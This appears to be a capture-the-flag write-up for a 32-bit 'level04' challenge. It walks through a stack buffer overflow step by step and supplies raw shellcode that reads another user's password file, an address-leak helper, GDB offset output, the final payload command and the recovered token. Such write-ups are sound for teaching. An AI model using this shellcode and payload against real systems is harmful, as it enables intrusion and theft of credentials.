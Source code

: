 # level04

1. Overview / Static analysis

   * Classic **stack buffer overflow** that overwrites the saved return address (EIP) and redirects execution to attacker‑supplied **shellcode**.
   * Shellcode is stored in an **environment variable** (`SHELLCODE`) to get a relatively stable location that can be leaked at runtime.
   * Target is **32‑bit**; addresses are 4 bytes and written **little‑endian** in the payload.

2. Vulnerability & plan of attack

   * Overflow a stack buffer during input, control EIP, and pivot execution into the shellcode placed in `SHELLCODE`.
   * Steps:

     1. Export shellcode into env.
     2. Leak `getenv("SHELLCODE")` to obtain its runtime address.
     3. Find the exact **offset to EIP** with a cyclic pattern under GDB (found to be **156** bytes).
     4. Build final payload = `A * 156` + `<addr_of_shellcode>` (little‑endian) and feed it to the program.

3. Preparing shellcode in the environment

   The shellcode opens and reads `/home/users/level05/.pass` and prints it. Export it as an environment variable:

   ```bash
   export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
   ```

4. Leaking the shellcode address

   Compile a tiny helper (32‑bit) to print `getenv("SHELLCODE")` and run it to capture the pointer:

   ```bash
   printf '%s\n' '#include <stdio.h>' '#include <stdlib.h>' 'int main(void){ printf("%p\n", getenv("SHELLCODE")); return 0; }' > /tmp/_tmp.c \
     && gcc -O2 -m32 /tmp/_tmp.c -o /tmp/_tmp \
     && /tmp/_tmp \
     && rm -f /tmp/_tmp /tmp/_tmp.c
   # example output on the author\'s system:
   0xffffd8b8
   ```

   Example leaked address: **`0xffffd8b8`** (in the environment area).

5. Finding the overflow offset (under GDB)

   Use a cyclic pattern for the crashing input. The program crashes with EIP = `0x41326641`, from which the EIP overwrite **offset = 156** bytes was determined.

   ```bash
   (gdb) set follow-fork-mode child
   (gdb) run
   Starting program: /home/users/level04/level04
   Give me some shellcode, k
   # long input...
   Program received signal SIGSEGV, Segmentation fault.
   0x41326641 in ?? ()   # offset -> 156
   ```

6. Exploit construction

   **Payload layout:**

   ```
   [ 156 x 'A' ]  [ <addr_of_SHELLCODE> ]
                  ^ little-endian 4 bytes (e.g., 0xffffd8b8 -> \xb8\xd8\xff\xff)
   ```

   **Final command (using the example leaked addr):**

   ```bash
   python -c "print('A'*156 + '\xb8\xd8\xff\xff')" | ./level04
   ```

   Example run (author):

   ```
   Give me some shellcode, k
   3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
   ```

7. Notes & caveats

   * **ASLR**: If enabled, the environment address may vary across runs. The technique assumes a stable env layout; otherwise disable ASLR or obtain a fresh leak each run.
   * **Architecture**: Keep consistency between the helper and the target (use `-m32` as shown); pack addresses as **little‑endian**.
   * **Reliability**: If the jump is flaky, add a small **NOP sled** in the environment payload before the shellcode bytes and land anywhere within it.

8. Token discovered

   Token `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`
